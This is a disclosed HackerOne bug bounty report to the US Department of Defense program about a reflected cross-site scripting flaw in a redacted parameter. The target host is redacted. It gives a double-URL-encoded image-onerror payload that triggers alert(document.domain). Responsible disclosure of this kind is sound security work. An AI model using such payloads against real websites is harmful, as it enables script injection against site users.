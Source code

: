 # Reflected XSS at ████ via ██████████= parameter 

## Report Details
- **Report ID**: 1305472
- **URL**: https://hackerone.com/reports/1305472
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-08-14T16:28:42.570Z
- **Disclosed**: 2021-10-28T20:17:41.215Z

## Reporter
- **Username**: zhenwarx
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi
I found that this endpoint is vulnerable with Reflected XSS, The ███= parameter is vulnerable with RXSS
PoC:
```
██████████?████████=%253Cimg/src/onerror=alert(document.domain)%253E

```
Payload: `<img/src/onerror=alert(document.domain)> `
Regards

## Impact

RXSS

## System Host(s)
www.███

## Affected Product(s) and Version(s)


## CVE Numbers


## Steps to Reproduce
██████████?█████=%253Cimg/src/onerror=alert(document.domain)%253E

## Suggested Mitigation/Remediation Actions




## Attachments
No attachments
